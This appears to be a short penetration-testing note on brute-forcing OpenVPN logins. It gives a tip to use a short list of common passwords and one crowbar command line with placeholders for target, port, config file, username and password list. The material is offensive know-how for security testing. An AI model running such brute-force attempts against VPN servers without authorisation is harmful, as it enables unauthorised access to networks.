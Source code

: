 # OpenVPN

## 01 - Brute Force

> [!NOTE] Slow Bruteforce
> Since bruteforcing may take a long time. Use a shorter and most frequent [[06 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/0x02 - IoTs/VPN Appliances/Helpers|vpn wordlist]] to find low hanging fruit.

```
$ crowbar -b openvpn -s <target_IP>/32 -p <443 | 1194> -m file.ovpn [-k certificate.crt] -u <username> -C passwords.lst
```

---
## References

- [[Crowbar|Crowbar]]